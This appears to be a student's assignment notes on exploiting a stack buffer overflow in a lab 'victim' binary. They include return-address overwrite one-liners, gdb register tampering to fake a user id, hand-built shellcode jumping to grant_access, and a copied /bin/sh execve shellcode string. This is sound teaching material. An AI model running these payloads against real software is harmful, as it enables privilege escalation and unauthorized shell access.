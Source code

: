 # Assignment 2

```sh
(gdb) set disassembly-flavor intel
(gdb) disas main
```

## Step 1

```sh
objdump -d victim > source.dump
objdump -d victim -M intel > source2.dump
# find memtest address and make it little endian
# 08049206 <memtest>
python -c "print 'A' * 24 + '\x06\x92\x04\x08'" | ./victim
>>Return address: 0x00000000
>>Frame address:  0xffafffdc
```

`strncpy()` copies the string by specifying the number n of characters to copy
e.g., `strncpy(dest, src, n); dest[n] = '\0'`
If source string is longer than the destination string, the overflow characters are discarded automatically
You have to place the null character manually

## Step 2

First approach

```sh
id -ur #1000
printf '%x\n' 1000 #0x3e8
# bof to \xa2\x92\x04\x08 0x080492a2 <grant_access>
python -c "print 'A' * 24 + '\xa2\x92\x04\x08'" > out2
gdb victim
(gdb) r < out2
(gdb) b * 0x80492b3 # before cmp
(gdb) set $eax = 0x3e8
```

Second approach

- argument passed to the grant_access, is saved in ebp-0x8
- so i put my user id inside ebp-0x8
- then set eip to the address of grant_access
- check out [step2.py](./step2.py)

## Step3

A\*12 + edx + AAAA + ebp + eip

```sh
Breakpoint 9, 0x0804931f in password_prompt ()
#0 0x0804931f in password_prompt ()
#1 0x080492a2 in get_user_id ()
#2 0x00000000 in ?? ()

(gdb) x/16xw \$sp

0xffefffb4: 0xffefffc4 0x0000000c 0x00000000 0x00000000
0xffefffc4: 0x42424141 0x44444343 0x46464545 0x48484747
0xffefffd4: 0x4a4a4949 0xffefffe0 0x080492a2 0x00000000
0xffefffe4: 0x00000000 0x00000000 0x00000000 0x00000000

0xffefffb4: 0xffefffc4 0x0000000c 0x00000000 0x00000000
0xffefffc4: 0x42424141 0x44444343 0x46464545 0x48484747
0xffefffd4: 0x4a4a4949 0xebp 0xeip 0x00000000
0xffefffe4: 0x00000000 0x00000000 0x00000000 0x00000000

4 steps:

1. must set eip=0xffefffc4

2. pass arg
"\x68\xE8\x03\x00\x00"
push DWORD PTR 0x3e8

3. valid return point? set it after our code?! ebp=0xffefffe4

4. go to grant_access
"\x68\xA2\x92\x04\x08\xC3"
Disassembly: 6bit
0:  68 a2 92 04 08          push   0x80492a2
5:  c3                      ret

mov ebp,0xffefffd0 "\xBD\xD0\xFF\xEF\xFF" 5
mov_ebp_ffefffd0 = struct.pack("I", 0xBDD0FFEFFF)

push_3e8 = struct.pack("I", 0x68E8030000)

push_80492a2 = "\x68\xA2\x92\x04\x08" 5
push 0x80492a2


ret= \xC3 1
id= struct.pack("I", 0x3e8) 4
"\xBD\xD0\xFF\xEF\xFF\x68\xE8\x03\x00\x00\x68\xA2\x92\x04\x08\xC3"
16byte


for debuging # x/16wx 0xffefffc4
```

## Step 4

- Use NOPs and retired to estimated point/address.
- Sometimes it happens because of enviromental variables. We can remove them. `$env --ignore-environment ./victim (gdb) unset env`
- Maybe use relative address [eip-0x14]!!

## Step 5

Hijack Victim OS

## ASM

- `esp`: the **top of the stack**. It points to (holds the address of) the most-recently pushed value on the stack.
- `eip`: is the instruction pointer. It points to (holds the address of) the first byte of the **next instruction to be executed**.
- `ebp`: is usually set to esp at the start of the function.
- `lea` https://www.aldeid.com/wiki/X86-assembly/Instructions/lea
- NOP \x90
- INT3 \xCC breakpoint

## Endian

![Big-Endian](https://upload.wikimedia.org/wikipedia/commons/thumb/5/54/Big-Endian.svg/280px-Big-Endian.svg.png)
![Little-Endian](https://upload.wikimedia.org/wikipedia/commons/thumb/e/ed/Little-Endian.svg/280px-Little-Endian.svg.png)

# Resources

- https://www.asciitohex.com/
- https://defuse.ca/online-x86-assembler.htm#disassembly
- https://github.com/z3tta/Exploit-Exercises-Protostar
- https://0xrick.github.io/binary-exploitation/bof6/
- [Py.Struct](https://docs.python.org/2/library/struct.html)
- <http://shell-storm.org/>
- <http://shell-storm.org/shellcode/>
- \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
- [To execute shell code, you can edit a function's contents directly](https://stackoverflow.com/questions/5661021/how-to-run-assembly-in-gdb-directly)

## meaning-of-0x8rsp

Parentheses generally mean to dereference. 0x8(%rsp) means "get the location on the stack that is 8 bytes away from the stack pointer %rsp, and then take the value at that address."
It moves 0x131 into %eax, and then compares it to the data at that location. cmp sets the eflags register depending on that comparison (like the Zero Flag if the operands were equal, etc.)
To see what is at the address using GDB, type

(gdb) x/1dw 0x8(%esp)
This command 'x' examines memory.
1 means examine 1 of whatever unit is specified.
"d" means output in decimal notation (as opposed to hex). you might use "c" to get a char, or "x" to get a hex, or "s" for a string, or whatever.
"w" provides the unit, in this case a word, which is 4 bytes.
So this command looks at 4 bytes at the given address, 0x8(%rsp), and prints whatever is there in decimal format.
To learn more about using GDB to see how your memory is changing, see this document.

To read the memory at given addresses you should take a look at x. x/x $esp for hex x/d $esp for signed x/u $esp for unsigned etc. x uses the format syntax, you could also take a look at the current instruction via x/i $eip etc.

bt - backtrace: show stack functions and args
info frame - show stack start/end/args/locals pointers

(gdb)- `x/4xw $sp`
to print "four words (w ) of memory above the stack pointer (here, \$sp) in hexadecimal (x)". The quotation is slightly paraphrased

## from Notebook

![1](notes/1.jpg)
![2](notes/2.jpg)
